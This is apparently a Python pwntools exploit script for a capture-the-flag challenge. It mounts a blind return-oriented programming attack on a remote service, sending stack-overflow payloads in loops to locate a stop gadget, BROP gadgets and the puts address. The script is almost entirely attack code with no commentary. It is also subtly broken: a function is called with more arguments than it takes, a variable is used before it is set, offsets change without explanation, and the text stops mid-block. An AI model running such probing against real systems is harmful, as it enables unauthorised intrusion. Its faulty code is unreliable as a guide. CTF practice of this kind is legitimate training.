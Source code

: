 ```python

def get_brop_gadget(length, stop_gadget):
    try:
        sh = remote("node5.buuoj.cn","29429")
        sh.recvuntil(b'Please tell me:')
        payload = b'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recvall()
        sh.close()
        # stop gadget returns memory
        if b'Hello' in content:
            log.success('找到一个返回值：'+str(hex(addr)))
            return addr
        else:
            addr += 1
    except Exception:
        sh.close()
        addr += 1

def check_brop_gadget(length, addr):
    try:
        sh = remote("node5.buuoj.cn","29429")
        sh.recvuntil(b'Please tell me:')
        payload = b'a' * length + p64(addr) + b'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recvline()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


length = 72
addr = 0x400900
stop_gadget = 0x4007d6
while 1:
    print(hex(addr))
    if get_brop_gadget(length, stop_gadget,addr):
        print('possible brop gadget: 0x%x' % addr)
        if check_brop_gadget(length, addr):
            print('success brop gadget: 0x%x' % addr)
            break
    addr += 1

# print(hex(get_brop_gadget(offset,stop_gadget)))
offset = 216
stop_gadget = 0x4007d6
brop_gadget = 0x40095a
rdi_ret = brop_gadget + 0x9

def get_puts_addr(offset,rdi_ret,stop_gadget):
    addr = 0x400630
    while True:
        print(hex(addr))
        p = remote("node5.buuoj.cn","29429")
        p.recvuntil(b'Please tell me:')
        payload = b'a' * offset + p64(rdi_ret) + p64(0x400000) + p64(addr) + p64(stop_gadget)
        p .sendline(payload)
        try:
            content = p.recvall()
            print(content)
```
